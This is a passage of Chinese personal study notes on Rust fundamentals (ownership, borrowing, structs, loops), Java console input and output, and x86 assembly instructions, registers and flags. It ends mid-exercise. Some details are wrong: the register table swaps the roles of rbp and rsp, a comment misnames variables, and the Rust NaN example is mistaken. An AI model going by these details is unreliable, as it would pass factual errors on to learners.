     return 0;
  }
```


# Rust


```rust
fn main() {
    println!("Hello, world!\n");
}
```

Rust 的变量在默认情况下是**不可变的**，可以通过 `mut` 关键字让变量变为**可变的**

```rust
fn main() {
    let mut x = 5;
    println!("The value of x is: {}", x);
    x = 6;
    println!("The value of x is: {}", x);
}
```

创建了一个变量却不在任何地方使用它，Rust 通常会给一个警告，因为这可能会是个 BUG。这时**你希望告诉 Rust 不要警告未使用的变量，为此可以用下划线作为变量名的开头**：

```rust
fn main() {
    let _x = 5;
    let y = 10;
}
```


#### 数据类型

**整数**是没有小数部分的数字。之前使用过的 `i32` 类型，表示有符号的 32 位整数（ `i` 是英文单词 *integer* 的首字母，与之相反的是 `u`，代表无符号 `unsigned` 类型）。下表显示了 Rust 中的内置的整数类型：

| 长度       | 有符号类型 | 无符号类型 |
| ---------- | ---------- | ---------- |
| 8 位       | `i8`       | `u8`       |
| 16 位      | `i16`      | `u16`      |
| 32 位      | `i32`      | `u32`      |
| 64 位      | `i64`      | `u64`      |
| 128 位     | `i128`     | `u128`     |
| 视架构而定 | `isize`    | `usize`    |

 Rust 整型默认使用 `i32`，使用其它整型：`let _y:i64 = 123456`

**浮点类型数字** 是带有小数点的数字，在 Rust 中浮点类型数字也有两种基本类型： `f32` 和 `f64`，分别为 32 位和 64 位大小。默认浮点类型是 `f64`


**NaN,**对于数学上未定义的结果，例如对负数取平方根 `-42.1.sqrt()` ，会产生一个特殊的结果：Rust 的浮点数类型使用 `NaN` (not a number)来处理这些情况。**所有跟 `NaN` 交互的操作，都会返回一个 `NaN`**，而且 `NaN` 不能用来比较


**序列**,Rust 提供了一个非常简洁的方式，用来生成连续的数值，例如 `1..5`，生成从 1 到 4 的连续数字，不包含 5 ；`1..=5`，生成从 1 到 5 的连续数字，包含 5，它的用途很简单，常常用于循环中：

```
for i in 1..=5 {
    println!("{}",i);
}
```

序列只允许用于数字或字符类型，原因是：它们可以连续，同时编译器在编译期可以检查该序列是否为空，字符和数字值是 Rust 中仅有的可以用于判断是否为空的类型。


**字符**只能用 `''` 来表示， `""` 是留给字符串的


**布尔类型**有两个可能的值：true 和 false，布尔值占用内存的大小为 1 个字节


**单元类型**就是 `()`， `main` 函数就返回这个单元类型 `()`


Rust 的函数体是由一系列语句组成，最后由一个表达式来返回值，例如：

```rust
fn add_with_extra(x: i32, y: i32) -> i32 {
    let x = x + 1; // 语句
    let y = y + 5; // 语句
    x + y // 表达式
}
```

表达式会进行求值，然后返回一个值，**表达式不能包含分号**。这一点非常重要，一旦你在表达式后加上分号，它就会变成一条语句，再也**不会**返回一个值。


#### **函数**

```rust
fn add(i: i32, j: i32) -> i32 {
   i + j
 }
```


**函数要点**

- 函数名和变量名使用[蛇形命名法(snake case)，例如 `fn add_two() -> {}`
- 函数的位置可以随便放，Rust 不关心我们在哪里定义了函数，只要有定义即可
- 每个函数参数都需要标注类型


**Rust 中的特殊返回类型**

无返回值()

例如单元类型 `()`，是一个零长度的元组。它没啥作用，但是可以用来表达一个函数没有返回值：

- 函数没有返回值，那么返回一个 `()`
- 通过 `;` 结尾的表达式返回一个 `()`

函数显式的返回了 `()`：

```rust
fn clear(text: &mut String) -> () {
}
```

永不返回的发散函数 `!`

当用 `!` 作函数返回类型的时候，表示该函数永不返回( diverge function )，特别的，这种语法往往用做会导致程序崩溃的函数：

```rust
fn dead_end() -> ! {
}
```


#### 所以权和借用

 Rust **通过所有权来管理内存**，编译器在编译时会根据一系列规则进行检查，这种检查只发生在编译期，因此对于程序运行期，不会有任何性能上的损失。


**所有权的规则**：

1. Rust 中每一个值都被一个变量所拥有，该变量被称为值的所有者
2. 一个值同时只能被一个变量所拥有，或者说一个值只能拥有一个所有者
3. 当所有者(变量)离开作用域范围时，这个值将被丢弃(drop)


**转移所有权**

```rust
let x = 5;
let y = x;
```

代码背后的逻辑很简单, 将 `5` 绑定到变量 `x`；接着拷贝 `x` 的值赋给 `y`，最终 `x` 和 `y` 都等于 `5`，因为整数是 Rust 基本数据类型，是固定大小的简单值，因此这两个值都是通过自动拷贝的方式来赋值的，都被存在栈中，完全无需在堆上分配内存。


```rust
let s1 = String::from("hello");
let s2 = s1;
```

对于基本类型（存储在栈上），Rust 会自动拷贝，但是 `String` 不是基本类型，而且是存储在堆上的，因此不能自动拷贝。

实际上， `String` 类型是一个复杂类型，由**存储在栈中的堆指针**、**字符串长度**、**字符串容量**共同组成，其中**堆指针**是最重要的，它指向了真实存储字符串内容的堆内存，至于长度和容量，容量是堆内存分配空间的大小，长度是目前已经使用的大小。

 `String` 类型指向了一个堆上的空间，这里存储着它的真实数据, 下面对上面代码中的 `let s2 = s1` 分成两种情况讨论：

1. 拷贝 `String` 和存储在堆上的字节数组 如果该语句是拷贝所有数据(深拷贝)，那么无论是 `String` 本身还是底层的堆上数据，都会被全部拷贝，这对于性能而言会造成非常大的影响
2. 只拷贝 `String` 本身 这样的拷贝非常快，因为在 64 位机器上就拷贝了 `8字节的指针`、`8字节的长度`、`8字节的容量`，总计 24 字节。

**当 `s1` 赋予 `s2` 后，Rust 认为 `s1` 不再有效，因此也无需在 `s1` 离开作用域后 `drop` 任何东西，这就是把所有权从 `s1` 转移给了 `s2`，`s1` 在被赋予 `s2` 后就马上失效了**。


拷贝指针、长度和容量而不拷贝数据听起来就像浅拷贝，但是又因为 Rust 同时使第一个变量 `s1` 无效了，因此这个操作被称为 **移动(move)**，而不是浅拷贝。




**确实**需要深度复制 `String` 中堆上的数据，而不仅仅是栈上的数据，可以使用一个叫做 `clone` 的方法。

```rust
let s1 = String::from("hello");
let s2 = s1.clone();

println!("s1 = {}, s2 = {}", s1, s2);
```


**借用规则如下**：

- 同一时刻，你只能拥有要么一个可变引用, 要么任意多个不可变引用
- 引用必须总是有效的


**不可变引用**

引用指向的值默认也是不可变的。

用 `s1` 的引用作为参数传递给 `calculate_length` 函数，而不是把 `s1` 的所有权转移给该函数：

```rust
fn main() {
    let s1 = String::from("hello");

    let len = calculate_length(&s1);

    println!("The length of '{}' is {}.", s1, len);
}

fn calculate_length(s: &String) -> usize {
    s.len()
}
```

能注意到两点：

1. 无需先通过函数参数传入所有权，然后再通过函数返回来传出所有权，代码更加简洁
2. `calculate_length` 的参数 `s` 类型从 `String` 变为 `&String`

这里，`&` 符号即是引用，它们允许你使用值，但是不获取所有权，如图所示： 



通过 `&s1` 语法，我们创建了一个**指向 `s1` 的引用**，但是并不拥有它。因为并不拥有这个值，当引用离开作用域后，其指向的值也不会被丢弃。


**可变引用**

```rust
fn main() {
    let mut s = String::from("hello");

    change(&mut s);
}

fn change(some_string: &mut String) {
    some_string.push_str(", world");
}
```

首先，声明 `s` 是可变类型，其次创建一个可变的引用 `&mut s` 和接受可变引用参数 `some_string: &mut String` 的函数。

**可变引用同时只能存在一个**：同一作用域，特定数据只能有一个可变引用


**可变引用与不可变引用不能同时存在**

下面的代码会导致一个错误：

```rust
let mut s = String::from("hello");

let r1 = &s;  
let r2 = &s; 
let r3 = &mut s; //s已经被s1、s2不可变引用了，再通过可变引用引用s就会报错

println!("{}, {}, and {}", r1, r2, r3);
```


#### 复合类型

##### 字符串

字符串切片的类型标识是 `&str`对于字符串而言，切片就是对 `String` 类型中某一部分的引用，它看起来像这样：

```rust
let s = String::from("hello world");

let hello = &s[0..5];
let world = &s[6..11];
```

`hello` 没有引用整个 `String s`，而是引用了 `s` 的一部分内容，通过 `[0..5]` 的方式来指定。

这就是创建切片的语法，使用方括号包括的一个序列：**[开始索引..终止索引]**，其中开始索引是切片中第一个元素的索引位置，而终止索引是最后一个元素后面的索引位置，也就是这是一个 `右半开区间`。在切片数据结构内部会保存开始的位置和切片的长度，其中长度是通过 `终止索引` - `开始索引` 的方式计算得来的。

对于 `let world = &s[6..11];` 来说，`world` 是一个切片，该切片的指针指向 `s` 的第 7 个字节(索引从 0 开始, 6 是第 7 个字节)，且该切片的长度是 `5` 个字节。


**Rust 中的字符是 Unicode 类型，因此每个字符占据 4 个字节内存空间，但是在字符串中不一样，字符串是 UTF-8 编码，也就是字符串中的字符所占的字节数是变化的(1 - 4）**，Rust 在语言级别，只有一种字符串类型： `str`，它通常是以引用类型出现 `&str`，也就是上文提到的字符串切片。虽然语言级别只有上述的 `str` 类型，但是在标准库里，还有多种不同用途的字符串类型，其中使用最广的即是 `String` 类型。

Rust不能使用索引的方式访问字符串的某个字符或者子串。

变量在离开作用域后，就自动释放其占用的内存。


##### 元组

元组是由多种类型组合到一起形成的，因此它是复合类型，元组的长度是固定的，元组中元素的顺序也是固定的。

可以通过以下语法创建一个元组：

```rust
fn main() {
    let tup: (i32, f64, u8) = (500, 6.4, 1);
}
```

变量 `tup` 被绑定了一个元组值 `(500, 6.4, 1)`，该元组的类型是 `(i32, f64, u8)`

模式匹配

```rust
fn main() {
    let tup = (500, 6.4, 1);

    let (x, y, z) = tup;

    println!("The value of y is: {}", y);
}
```

上述代码首先创建一个元组，然后将其绑定到 `tup` 上，接着使用 `let (x, y, z) = tup;` 来完成一次模式匹配，因为元组是 `(n1, n2, n3)` 形式的，因此我们用一模一样的 `(x, y, z)` 形式来进行匹配，元组中对应的值会绑定到变量 `x`， `y`， `z`上。这就是解构：用同样的形式把一个复杂对象中的值匹配出来。

如果只想要访问某个特定元素，那模式匹配就略显繁琐，对此，Rust 提供了 `.` 的访问方式，和其它语言的数组、字符串一样，元组的索引从 0 开始：

```rust
fn main() {
    let x: (i32, f64, u8) = (500, 6.4, 1);

    let five_hundred = x.0;

    let six_point_four = x.1;

    let one = x.2;
}
```


##### 结构体

与元组不同的是，结构体可以为内部的每个字段起一个富有含义的名称。因此结构体更加灵活更加强大，你无需依赖这些字段的顺序来访问和解析它们。


一个结构体由几部分组成：

- 通过关键字 `struct` 定义
- 一个清晰明确的结构体 `名称`
- 几个有名字的结构体 `字段`

例如, 以下结构体定义了某网站的用户：

```rust
struct User {
    active: bool,
    username: String,
    email: String,
    sign_in_count: u64,
}
```

该结构体名称是 `User`，拥有 4 个字段，且每个字段都有对应的字段名及类型声明，例如 `username` 代表了用户名，是一个可变的 `String` 类型。


创建结构体实例

为了使用上述结构体，我们需要创建 `User` 结构体的**实例**：

```rust
    let user1 = User {
        email: String::from("someone@example.com"),
        username: String::from("someusername123"),
        active: true,
        sign_in_count: 1,
    };
```

有几点值得注意:

1. 初始化实例时，**每个字段**都需要进行初始化
2. 初始化时的字段顺序**不需要**和结构体定义时的顺序一致


访问结构体字段

通过 `.` 操作符即可访问结构体实例内部的字段值，也可以修改它们：

```rust
    let mut user1 = User {
        email: String::from("someone@example.com"),
        username: String::from("someusername123"),
        active: true,
        sign_in_count: 1,
    };

    user1.email = String::from("anotheremail@example.com");
```

需要注意的是，必须要将结构体实例声明为可变的，才能修改其中的字段，Rust 不支持将某个结构体某个字段标记为可变。


结构体更新语法

在实际场景中，有一种情况很常见：根据已有的结构体实例，创建新的结构体实例，例如根据已有的 `user1` 实例来构建 `user2`：

```rust
  let user2 = User {
        active: user1.active,
        username: user1.username,
        email: String::from("another@example.com"),
        sign_in_count: user1.sign_in_count,
    };
//简化
 let user2 = User {
        email: String::from("another@example.com"),
        ..user1
    }; 
```

因为 `user2` 仅仅在 `email` 上与 `user1` 不同，因此我们只需要对 `email` 进行赋值，剩下的通过结构体更新语法 `..user1` 即可完成。

`..` 语法表明凡是我们没有显式声明的字段，全部从 `user1` 中自动获取。需要注意的是 `..user1` 必须在结构体的尾部使用。


> 结构体更新语法跟赋值语句 `=` 非常相像，因此在上面代码中，`user1` 的部分字段所有权被转移到 `user2` 中：`username` 字段发生了所有权转移，作为结果，`user1` 无法再被使用。
>
> 值得注意的是：`username` 所有权被转移给了 `user2`，导致了 `user1` 无法再被使用，但是并不代表 `user1` 内部的其它字段不能被继续使用，例如：

```rust
let user1 = User {
    email: String::from("someone@example.com"),
    username: String::from("someusername123"),
    active: true,
    sign_in_count: 1,
};
let user2 = User {
    active: user1.active,
    username: user1.username,
    email: String::from("another@example.com"),
    sign_in_count: user1.sign_in_count,
};
println!("{}", user1.active);
// 下面这行会报错
println!("{:?}", user1);
```


元组结构体
结构体必须要有名称，但是结构体的字段可以没有名称，这种结构体长得很像元组，因此被称为元组结构体，例如：

    struct Color(i32, i32, i32);
    struct Point(i32, i32, i32);
    
    let black = Color(0, 0, 0);
    let origin = Point(0, 0, 0);
元组结构体在你希望有一个整体名称，但是又不关心里面字段的名称时将非常有用。例如上面的 Point 元组结构体，众所周知 3D 点是 (x, y, z) 形式的坐标点，因此我们无需再为内部的字段逐一命名为：x, y, z。


结构体不默认实现 `Display` 特征，无法使用`{}` 的方式打印结构体。可使用`#[derive(Debug)]`      `{:?}`，结构体较大时，可以使用 `{:#?}` 来替代 `{:?}`

```rust
#[derive(Debug)]
struct Rectangle {
    width: u32,
    height: u32,
}

fn main() {
    let rect1 = Rectangle {
        width: 30,
        height: 50,
    };

    println!("rect1 is {:?}", rect1);
}
```


#### 流程控制

`if else` **表达式**根据条件执行不同的代码分支：

```rust
if condition == true {
    // A...
} else {
    // B...
}
```


```rust
fn main() {
    let condition = true;
    let number = if condition {
        5
    } else {
        6
    };

    println!("The value of number is: {}", number);
}
```

以上代码有以下几点要注意：

- **`if` 语句块是表达式**，这里我们使用 `if` 表达式的返回值来给 `number` 进行赋值：`number` 的值是 `5`
- 用 `if` 来赋值时，要保证每个分支返回的类型一样，此处返回的 `5` 和 `6` 就是同一个类型，如果返回类型不一致就会报错


for

```rust
fn main() {
    for i in 1..=5 {
        println!("{}", i);
    }
}
```


如果想在循环中**获取元素的索引**：

```rust
fn main() {
    let a = [4, 3, 2, 1];
    // `.iter()` 方法把 `a` 数组变成一个迭代器
    for (i, v) in a.iter().enumerate() {
        println!("第{}个元素是{}", i + 1, v);
    }
}
```


用 `for` 循环控制某个过程执行 10 次，但是又不想单独声明一个变量来控制这个流程

```rust
for _ in 0..10 {
  // ...
}
```

可以用 `_` 来替代 `i` 用于 `for` 循环中，在 Rust 中 `_` 的含义是忽略该值或者类型的意思。


| 使用方法                      | 等价使用方式                                      | 所有权     |
| ----------------------------- | ------------------------------------------------- | ---------- |
| `for item in collection`      | `for item in IntoIterator::into_iter(collection)` | 转移所有权 |
| `for item in &collection`     | `for item in collection.iter()`                   | 不可变借用 |
| `for item in &mut collection` | `for item in collection.iter_mut()`               | 可变借用   |

由于 `for` 循环无需任何条件限制，也不需要通过索引来访问。


# Go


# Java学习

#### Java的输入输出

输入

```
import java.util.Scanner;//开头引入
public class Test {
    public static void main(String[] args) {
        Scanner input=new Scanner(System.in);//
        String str=input.next();//变量赋值
        int s=input.nextInt();//
        }
}
```

输出

```
 System.out.println();//自动换行
 System.out.printf();//格式化输出
```


**dream**

ctf

田野（水）

积木（船）

人（混乱）


# 汇编语言

1字节（byte）=8bit=2^3         

字节
Byte: 八个比特 (bit) 称为一个字节,是计算机中数据处理的最基本的单位

字
Word: 两个字节称为一个字, 即16位

双字
Dword: 两个字称为一个双字，两个Word，为32位 D为double

四字
Qword: 两个双字称为一个四字，四个Word，为64位 Q为 quadra


0000 0000 0000 0000

# x86

## 指令

### 数据移动指令

实现寄存器和内存，寄存器和寄存器之间的单个数据传送。

#### 通用的数据转送指令MOV

将B的数据复制到A：MOV A，B；A = B
A可以是寄存器、内存地址
B可以是寄存器、内存地址、立即数
A、B不能同时位内存地址

movups
不必16字节对齐

movaps
必需16字节对齐


MOVSX与MOVZX的区别：
 1、MOVSX将用操作数B的符号位扩展填充操作数A的余下空间，如果是负数则符号位为1，如果是正数则和MOVZX功能相同
 2、MOVZX将用0来扩展填充操作数A的余下空间。


#### 堆栈操作指令PUSH/POP

对堆栈的信息进行存取，不影响标志位，常用于子程序的调用和返回过程中保存程序中的某些信息

push ax表示将ax数据入栈。

pop ax表示从栈顶取出数据送入ax，出栈以字单位进行。

pushf和popf

（1）pushf是将标志寄存器的值压栈
（2）popf是从栈中弹出数据
（3）原理与push和pop类似

#### 地址传送指令LEA、LDS/LES

将当前段内的源操作数的有效地址EA传送到目的操作数，即将一个16位的近地址写入指定的16位通用寄存器中。可用于表格处理、存取若干连续的基本变量的处理和串操作处理中，为寄存器建立地址指针。

LEA

1、lea eax，[addr]

就是将表达式addr的值放入eax寄存器，示例如下：

lea eax,[401000h]; 将值401000h写入eax寄存器中

lea指令右边的操作数表示一个精指针，上述指令和mov eax，401000h是等价的

 

2、lea eax，dword ptr [ebx];将ebx的值赋值给eax

3、lea eax，c；其中c为一个int型的变量，该条语句的意思是把c的地址赋值给eax；

##### LDS/LES为远地址传送指令

将源操作数所对应的的4字节内存单元中的第一个字送入指定的通用寄存器，而第二个字则送入段寄存器DS（或ES）,即将一个32位远地址的偏移地址写入到指定的通用寄存器，而该指针的段基址寄存器送至段寄存器DS（或ES）。

#### 输入/输出数据传送指令

输入指令IN用于从外设端口接收数据，输出指令OUT用向从外设端口发送数据

当端口地址小于256（即地址00H~FFH）,应采用直接寻址方式
当端口地址等于 或大于256（即地址0100H~FFFFH）时，采用间接寻址方式，即事先将端口地址放在DX寄存器中，然后再使用IO指令。


### 运算指令

##### 加减乘除指令

ADD 指令将长度相同的源操作数和目的操作数进行相加操作。

SUB 指令从目的操作数中减去源操作数。

INC指令，自增1。

DEC指令，自减1。

###### div是除法指令

除数：有8位和16位两种，在一个寄存器或内存单元中。

被除数：默认放在AX或DX和AX中，
如果除数为8位，被除数则为16位，默认在AX中存放；
如果除数为16位，被除数则为32位，在DX和AX中存放，DX存放高16位，AX存放低16位。

结果：
如果除数为8位，则AL存储除法操作的商，AH存储除法操作的余数；
如果除数为16位，则AX存储除法操作的商，DX存储除法操作的余数。

###### mul 指令

mul是乘法指令，使用 mul 做乘法的时候：相乘的两个数：要么都是8位，要么都是16位。

8 位： AL中和 8位寄存器或内存字节单元中；

16 位： AX中和 16 位寄存器或内存字单元中。

结果

8位：AX中；

16位：DX（高位）和 AX（低位）中。

格式：mul 寄存器 或 mul 内存单元


##### 位逻辑运算

AND指令，在两个操作数的对应位之间进行（按位）逻辑与（AND）操作，并将结果存放在目标操作数中。

C语言中，位与运算符为`&`，其运算规则是：参与运算的数字，低位对齐，高位不足的补零，如果对应的二进制位同时为 1，那么计算结果才为 1，否则为 0。因此，任何数与 0 进行按位与运算，其结果都为 0。


OR 指令 ，在两个操作数的对应位之间进行（按位）逻辑或（OR）操作，并将结果存放在目标操作数中。C语言中，位或运算符为`|`，其运算规则是：参与运算的数字，低位对齐，高位不足的补零。如果对应的二进制位只要有一个为 1，那么结果就为 1；如果对应的二进制位都为 0，结果才为 0。


XOR指令，在两个操作数的对应位之间进行（按位）逻辑异或（XOR）操作，并将结果存放在目标操作数中。

C语言中，位异或运算符为`^`，其运算规则是：参与运算的数字，低位对齐，高位不足的补零，如果对应的二进制位相同（同时为 0 或同时为 1）时，结果为 0；如果对应的二进制位不相同，结果则为 1。


NOT指令，变为反码。

位取反运算符为`~`，其运算规则是：只对一个操作数进行运算，将操作数二进制中的 1 改为 0，0 改为 1。


**算术左移指令SAL，逻辑左移SHL**

**算术右移指令SAR，逻辑右移SHR**


Test命令将两个操作数进行逻辑与运算，并根据运算结果设置相关的标志位。但是，Test命令的两个操作数**不会**被改变。运算结果在设置过相关标记位后会被丢弃。

`TEST AX,BX` 与`AND AX,BX`命令有相同效果，只是Test指令不改变AX和BX的内容，而AND指令会把结果保存到AX中。


#### 跳转指令

LOOP 指令，正式称为按照 ECX 计数器循环，将程序块重复特定次数。ECX 自动成为计数器，每循环一次计数值减 1。如果 ECX 不等于 0，则跳转到由目标给岀的标号。否则，如果 ECX 等于 0，则不发生跳转，并将控制传递到循环后面的指令。

LOOPZ（为零跳转）指令的工作和 LOOP 指令相同，只是有一个附加条件：为零控制转向目的标号，零标志位必须置 1。

LOOPNZ（非零跳转）指令与 LOOPZ 相对应。当 ECX 中无符号数值大于零（减 1 操作之后）且零标志位等于零时，继续循环。

JMP，无条件跳转

JE   ;等于则跳转      JNE  ;不等于则跳转

JZ   ;为 0 则跳转  ZF=1	JNZ  ;不为 0 则跳转 ZF=0

JS   ;为负则跳转 	JNS  ;不为负则跳转

JC   ;进位则跳转	JNC  ;不进位则跳转

JO   ;溢出则跳转	JNO  ;不溢出则跳转

JA   ;无符号大于则跳转	JNA  ;无符号不大于则跳转
JAE  ;无符号大于等于则跳转	JNAE ;无符号不大于等于则跳转

JG   ;有符号大于则跳转	JNG  ;有符号不大于则跳转
JGE  ;有符号大于等于则跳转	JNGE ;有符号不大于等于则跳转

JB   ;无符号小于则跳转	JNB  ;无符号不小于则跳转
JBE  ;无符号小于等于则跳转	JNBE ;无符号不小于等于则跳转

JL   ;有符号小于则跳转	JNL  ;有符号不小于则跳转
JLE  ;有符号小于等于则跳转	JNLE ;有符号不小于等于则跳转

JP   ;奇偶位置位则跳转	JNP  ;奇偶位清除则跳转
JPE  ;奇偶位相等则跳转	JPO  ;奇偶位不等则跳转

#### 函数调用指令

CALL 指令调用一个过程，指挥处理器从新的内存地址开始执行。过程使用 RET（从过程返回）指令将处理器转回到该过程被调用的程序点上。

1、ret 和 retf
ret指令用栈中的数据，修改IP的内容，从而实现近转移；

retf指令用栈中的数据，修改CS和IP的内容，从而实现远转移。

CPU执行ret指令时，相当于进行： pop IP：

（1）(IP) = ( (ss) * 16 + (sp) )

（2）(sp) = (sp) + 2

CPU执行retf指令时，相当于进行：pop IP, pop CS：

（1）(IP) = ( (ss) * 16 + (sp) )

（2）(sp) = (sp) + 2

（3）(CS) = ( (ss) * 16 + (sp) )

（4）(sp) = (sp) + 2


CMP（比较）指令执行从目的操作数中减去源操作数的隐含减法操作，并且不修改任何操作数，CMP 指令是创建条件逻辑结构的重要工具。当在条件跳转指令中使用 CMP 时，汇编语言的执行结果就和 IF 语句一样。

如果比较的是两个无符号数，则零标志位和进位标志位表示的两个操作数之间的关系如表所示：


| CMP结果               | ZF   | CF   |
| --------------------- | ---- | ---- |
| 目的操作数 < 源操作数 | 0    | 1    |
| 目的操作数 > 源操作数 | 0    | 0    |
| 目的操作数 = 源操作数 | 1    | 0    |


如果比较的是两个有符号数，则符号标志位、零标志位和溢出标志位表示的两个操作数之间的关系如表所示：


| CMP结果               | 标志位  |
| --------------------- | ------- |
| 目的操作数 < 源操作数 | SF ≠ OF |
| 目的操作数 > 源操作数 | SF=OF   |
| 目的操作数 = 源操作数 | ZF=1    |


set

实现无分支比较, 不断流水线

```assembly
cmp ecx,0x9
seta al
```

cmp 比较两个操作数，结果保存在FLAG寄存器中(同sub运算,不同在于不影响操作数, 只影响flag寄存器)

seta 的 a 表示无符号数的 above 大于，即 （和条件跳转语句同理）

如果 ecx > 9 ，则把al寄存器的值置1

否则置0

 

```assembly
cmp eax,edx
setb cl
```

　　

cmp 比较两个操作数，结果保存在FLAG寄存器中

setb 的 b 表示无符号数的 below 小于，即 （和条件跳转语句同理）

如果 eax < edx ，则把cl寄存器的值置1

否则置0


#### 其他

伪指令dd

db和dw定义字节型数据和字型数据。

dd是用来定义dword（double word，双字）型数据的伪指令


操作符dup

dup在汇编语言中同db、dw、dd等一样，也是由编译器识别处理的符号。
它和db、dw、dd等数据定义伪指令配合使用，用来进行数据的重复

```
db 3 dup (0)       ;定义了3个字节，它们的值都是0，相当于db 0，0，0。
db 3 dup (0, 1, 2) ;定义了9个字节，它们是0、1、2、0、1、2、0、1、2，相当于db 0，1，2，0，1，2，0，1，2。
db 3 dup ('abc', 'ABC') ;定义了18个字节，它们是abcABCabcABCabcABCC，相当于db 'abc', 'ABC' ,'abc' , 'ABC, 'abc', 'ABC'。
```


交换指令xchg

XCHG（交换数据）指令交换两个操作数内容。该指令有三种形式：

XCHG reg, reg
XCHG reg, mem
XCHG mem, reg


## 操作数：

寄存器 立即数 内存地址

## 寄存器


[一口气看完45个寄存器，CPU核心技术大揭秘 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/272135463)


| 64位 | 低32位 | 低16位 | 低8位 | 描述                        |
| ---- | ------ | ------ | ----- | --------------------------- |
| rax  | eax    | ax     | al    | 累加器                      |
| rbx  | ebx    | bx     | bl    | 基地址                      |
| rcx  | ecx    | cx     | cl    | 循环记数器                  |
| rdx  | edx    | dx     | dl    | 数据寄存器，通常扩展A寄存器 |
| rsi  | esi    | si     | sil   | 字符串操作的源索引          |
| rdi  | edi    | di     | dil   | 字符串操作的目的索引        |
| rbp  | ebp    | bp     | bpl   | 栈指针                      |
| rsp  | esp    | sp     | spl   | 基地址指针(栈帧基地址)      |
| r8   | r8d    | r8w    | r8b   | 新增通用寄存器              |
| r9   | r9d    | r9w    | r9b   | 新增通用寄存器              |
| r10  | r10d   | r10w   | r10b  | 新增通用寄存器              |
| r11  | r11d   | r11w   | r11b  | 新增通用寄存器              |
| r12  | r12d   | r12w   | r12b  | 新增通用寄存器              |
| r13  | r13d   | r13w   | r13b  | 新增通用寄存器              |
| r14  | r14d   | r14w   | r14b  | 新增通用寄存器              |
| r15  | r15d   | r15w   | r15b  | 新增通用寄存器              |

注意：使用REX.W指令前缀时，不能访问AH、BH、CH 和 DH。当操作数包含 64 位寄存器时，会添加此前缀（由汇编程序自动添加）。

输出到32位子寄存器的操作数自动零扩展到整个64位寄存器(**注：0扩展不影响符号位，因为有符号数最高位为1才表示负数**)。**输出到8位和16位字寄存器的操作数不是0扩展**(这是为了兼容x86的行为)。

ax、bx、cx和dx的高 8 位仍可寻址为ah、bh、ch、dh，但不能与所有类型的操作数一起使用。

指令指针寄存器eip和标识寄存器flags已被分别扩展为64位。

#### 通用寄存器

8086CPU中的寄存器是16位的，可以存放两个字节。AX、BX、CX、DX这四个寄存器通常存放一般性数据（16位数据或地址），所以被称作通用寄存器。

用作8位寄存器时分别记为AH、AL、BH、BL、CH、CL、DH、DL。只能存放8位数据，不能存放地址。

#### 指针和变址寄存器

BP( Base Pointer Register)：基址指针寄存器。 
SP( Stack Pointer Register)：堆栈指针寄存器。 
SI( Source Index Register)：源变址寄存器。 
DI( Destination Index Register)：目的变址寄存器

SI和DI不能分成两个八位寄存器，寻址时与BX功能相近。

#### 段寄存器

CS（Code Segment）：代码段寄存器；

DS（Data Segment）：数据段寄存器；

SS（Stack Segment）：堆栈段寄存器；

ES（Extra Segment）：附加段寄存器。

段寄存器不能直接赋值地址，一般通过AX中转。

#### 指令指针寄存器IP

#### 标志寄存器FR

pushf 的功能是将标志寄存器的值压栈，而 popf 是从栈中取出数据，输入标志寄存器。


FR是16位寄存器，其中有9位有效位用来存放状态标志和控制标志。状态标志共6位，CF、PF、AF、ZF、SF和OF，用于寄存程序运行的状态信息，这些标志往往用作后续指令判断的依据。控制标志有3位，IF、DF和TF，用于控制CPU的操作。

CF（进位标志） =1 算术操作最高位产生了进位或借位， =0 最高位无进位或借位 ；
PF（奇偶标志） =1 数据最低8位中1的个数为偶数， =0 数据最低8位中1的个数为奇数；
AF（辅助进位标志） =1 	在字操作时，发生低字节向高字节进位或错位时；在字节操作时，发生低4位向高4位进位或错位时位产生了进位或借位， =0    无进位或借位；
ZF（零标志） =1 操作结果为0 ，=0 结果不为0；
SF（符号标志） =1 结果最高位为1， =0 结果最高位为0；
OF（溢出标志） =1 此次运算发生了溢出 ，=0 无溢出。

DF(Direction Flag)——方向标志位。它用以指定字符串处理时的方向，当该位置“1”时，字符串以递减顺序处理，即地址以从高到低顺序递减。反之，则以递增顺序处理。

IF(Interrupt enable Flag)——中断允许标志位。它用来控制8086是否允许接收外部中断请求。若IF=1，8086能响应外部中断，反之则不响应外部中断。
注意：IF的状态不影响非屏蔽中断请求(NMI)和CPU内部中断请求。

TF(Trap Flag)——跟踪标志位。它是为调试程序而设定的陷阱控制位。当该位置“1”时，8086 CPU处于单步状态，此时CPU每执行完一条指令就自动产生一次内部中断。当该位复位后，CPU恢复正常工作。

#### CS和IP

1：

在8086PC机中，任意时刻，设CS中的内容为M，IP中的内容为N，8086CPU将从内存M×16+N单元开始，读取一条指令并执行。

2：

8086CPU采用一种在内部用两个16位地址合成的方法来形成一个20位的物理地址。段地址× 16+偏移地址的方法用段地址和偏移地址合成物理地址。

3：

修改CS IP的内容无法用mov指令，需用   "jmp  段地址：偏移地址" 

jmp 2AE3:3 ,执行后 CS=2AE3H，IP=0003H，CPU将从2AE33H处读取指令。

若仅修改IP内容，用  " jmp  某一合法寄存器”

jmp ax,在含义上好似：mov IP,ax  而CS不变。

SS和SP    SS为栈顶的段地址，SP为偏移地址。

### 间接寻址

直接寻址很少用于数组处理，因为，用常数偏移量来寻址多个数组元素时，直接寻址不实用。反之，会用寄存器作为指针（称为间接寻址）并控制该寄存器的值。如果一个操作数使用的是间接寻址，就称之为间接操作数. 如果要用BP , 那么默认的段地址是在SS段 , 其他的默认是在DS段 . 

MOV     AX ,  L

MOV     SI  ,  2000H   ; 那个2000H是我们自己定义的哟

MOV     [SI]  ,  AX        ; 这样子会把我们AX寄存器中L的值存放在[SI]这个地址里 . 

在之后要想再使用这个L的值的话 , 就可以这样来做:

MOV     AX , [SI]


mov ax, [bx+200]
该指令也可以写成如下格式：

```
mov ax, [200+bx]

mov ax, 200[bx]

mov ax, [bx].200
```


PTR 与间接操作数一起使用
一个操作数的大小可能无法从指令中直接看出来。下面的指令会导致汇编器产生错误信息
inc [si]    ;错误：operand must have size
汇编器不知道 ESI 指针的类型是字节、字、双字，还是其他的类型。而 PTR 运算符则可以确定操作数的大小类型：
inc BYTE PTR [si]

操作无寄存器时（[ax]属于地址）就需用PTR

#### 寄存器内存访问

CPU中，用16位寄存器来存储一个字。**字是有2个内存单元组成。高8位存放高位字节，低8位存放低位字节**。

|  0   | 20H  |
| :--: | ---- |
|  1   | 4EH  |
|  2   | 12H  |
|  3   | 00H  |
|  4   |      |
|  5   |      |

（1） 0 地址单元中存放的字节型数据是多少？
